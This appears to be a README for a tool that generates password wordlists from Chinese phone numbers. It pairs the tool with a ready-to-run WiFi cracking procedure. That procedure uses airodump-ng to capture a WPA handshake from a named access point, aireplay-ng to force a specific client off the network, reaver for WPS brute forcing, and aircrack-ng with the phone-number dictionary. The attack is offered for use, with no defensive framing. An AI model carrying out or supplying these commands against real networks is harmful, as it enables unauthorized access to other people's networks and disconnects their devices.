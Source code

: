 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

- `load_phone.py` loads phone numbers to sqlitedb
- `phone_dict_gen.py` will generate the phone dicts

## Download data files
- Download phone_region.db from ["我的文档" in 天翼云盘](https://cloud.189.cn/web/main/file/folder/-15)
- Download phone.csv from ["我的文档" in 天翼云盘](https://cloud.189.cn/web/main/file/folder/-15)

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


cap=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${cap}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${cap}
```


## Phone data src
https://gitee.com/oss/phonedata/attach_files

## Use Hashcat to crack password
See [hashcat-guide.md](hashcat-guide.md)